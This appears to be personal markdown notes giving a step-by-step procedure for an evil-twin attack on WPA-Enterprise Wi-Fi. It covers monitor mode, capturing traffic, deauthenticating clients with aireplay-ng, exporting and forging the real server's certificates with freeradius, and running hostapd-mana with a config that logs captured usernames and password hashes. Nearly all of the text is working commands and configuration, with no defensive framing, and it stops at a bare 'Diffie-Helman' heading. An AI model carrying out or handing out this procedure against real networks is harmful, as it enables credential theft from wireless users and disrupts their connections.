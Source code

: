 ### Rogue AP 
Rogue AP to match settings as closely as possible.  https://github.com/sensepost/hostapd-mana/wiki/Creating-PSK-or-EAP-Networks  
freeradius (open source RADIUS server) to generate a certificate.  

1. Monitor Mode.  `airmon-ng start wlan0`
2. `airodump-ng wlan0mon` = Note Channel, BSSID, and AUTH saying MGT (Enterprise) 
3. `sudo airodump-ng wlan0mon -c 3 --bssid <AP-MAC> -w cap1`
4. De-authenticate clients and capture a handshake & certificate `sudo aireplay-ng -0 1 -a <AP-MAc> -c <client-MAC> wlan0mon`
5. Stop the dump and leave monitor mode. `airmon-ng stop wlan0`
6. Open capture file in wireshark and filter 
`wlan.bssid==<AP-MAC && eap && tls.handshake.certificate`
7. Packet Details>Extensible Authentication Protocol>Transport Layer Security>TLS1.2 Record Layer: Handshake Protocol: Certificate>certificates
8. Every certificate right-click Export Packet Bytes and save as .der extension. Check contents of certificate with `openssl x509 -inform der -in cert.der -text`
9. Convert certificates into PEM format. `openssl x509 -inform der -in CERTIFICATE_FILENAME -outform pem -out OUTPUT_PEM.crt`
10. using `freeradius` generate certificates similar to what we captured. `cd /etc/freeradius/3.0/certs`
11. nano ca.cnf 
12. Edit certificate to look similar to real one.  
13. nano server.cnf 
14. Edit server to match target server certificate.  
15. Build the certs. `rm dh` `make`
16. Delete certs if already there `make delete certs`
17. Edit `hostapd-mana` for rogue ap settings - `nano /etc/hostapd-mana/mana.conf` 
18. Make same SSID as target AP  
19. Create host eap mana file `nano /etc /hostapd-mana/mana.eap_user`
```
*		PEAP,TTLS,TLS,MD5,GTC
"t"     	TTLS-MSCHAPV2,MSCHAPV2,MD5,GTC,TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP  "1234test"  [2]
```
21. First column * indicates any user. You can specfy a user and domain here.  
22. Start hostapd-mana `hostapd-mana /etc/hostapdmana/mana.conf`
23. After a host connects, you will see a username and password hash
24. `aireplay-ng -0 100 -a <Ap-MAC> wlan0 --ignore-negative-one`

### hostapd-mana configs
#### EAP networks
##### mana-config
```
interface=wlan1 #second card not in monitor mode
ssid=SSID
hw_mode=g
channel=1
auth_algs=3
wpa=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
ieee8021x=1
eap_server=1
eap_user_file=hostapd.eap_user
ca_cert=/ca.pem
server_cert=/server.pem
private_key=/server.key
dh_file=/dhparam.pem
mana_wpe=1
mana_eapsuccess=1
mana_credout=hostapd.creds
```
##### Diffie-Helman 